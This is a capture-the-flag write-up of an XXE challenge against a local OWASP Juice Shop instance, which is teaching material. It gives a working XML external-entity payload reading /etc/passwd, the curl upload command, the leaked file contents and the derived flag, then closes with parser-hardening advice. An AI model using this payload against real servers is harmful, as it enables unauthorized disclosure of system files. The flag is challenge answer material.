

# XXE Data Access

**Platform:** PCGCTF · **Challenge ID:** 213 · **Category:** XXE · **Points:** 450

**Status:** Solved locally and accepted by CTFd.

## The challenge

Retrieve `/etc/passwd` (or `C:\Windows\system.ini`) from the Juice Shop server.

## Reconnaissance

The challenge is part of the PCGCTF Juice Shop track, so the target is the local
instance at `http://localhost:3000`. Juice Shop's deprecated B2B complaint form posts
documents to `POST /file-upload`. The route accepts PDF, XML, ZIP, YML and YAML.

The XML branch is the interesting one. Its handler calls `parseXmlString`, and the
shipped `build/lib/xml.js` registers filesystem input providers and parses with
`XML_PARSE_NOENT | XML_PARSE_DTDLOAD`, so external entities are resolved. The error
page also reflects the expanded document, which gives a direct readback channel.

No login is required for `/file-upload`.

## Exploit

`files/xxe-passwd.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE complaint [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<complaint>&xxe;</complaint>
```

```bash
cd /home/nightingale/CTF/PCGCTF/unsolved/xxe/213-xxe-data-access
F='file=@files/xxe-passwd.xml;type=text/xml'
curl -s -o /tmp/xxe-response.html -w 'HTTP %{http_code}\n' -F "$F" localhost:3000/file-upload
```

```text
HTTP 410
```

The 410 is intentional: Juice Shop returns "Gone" for the deprecated B2B interface. The
response body contains the parsed entity:

```bash
grep -o 'root:x:[^<]*' /tmp/xxe-response.html | head -1 | sed 's/&lt;.*//'
```

```text
root:x:0:0:root:/root:/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/sbin/nologinnonroot:x:65532:65532:nonroot:/home/nonroot:/sbin/nologin
```

The local challenge log confirms the intended solve:

```bash
podman logs pcgctf-juice-shop 2>&1 | grep 'Solved.*xxeFileDisclosure'
```

```text
info: Solved 3-star xxeFileDisclosureChallenge (XXE Data Access)
```

## Flag

Juice Shop in `NODE_ENV=ctf` derives flags as
`HMAC-SHA1(CTF_KEY, challenge name)`. The exact challenge name is `XXE Data Access`,
and the compose file supplies the shared key:

```bash
./evidence/derive_flag.py 'XXE Data Access'
```

```text
pcgCTF{2892edcae3ade1c4faf5c44bc8eb63ed163204b5}
```

CTFd accepted the flag on the first submission:

```json
{"success": true, "data": {"status": "correct", "message": "Correct"}}
```

## Screenshot



## Takeaway

The vulnerable parser is reachable without authentication, and the reflected error page
turns a file read into visible output. Disable external entities and DTD loading, or
reject XML documents with a `DOCTYPE` declaration, before parsing user uploads.

## Reference

- [Original challenge description](../../challenges/solved/xxe/213-xxe-data-access/README.md)
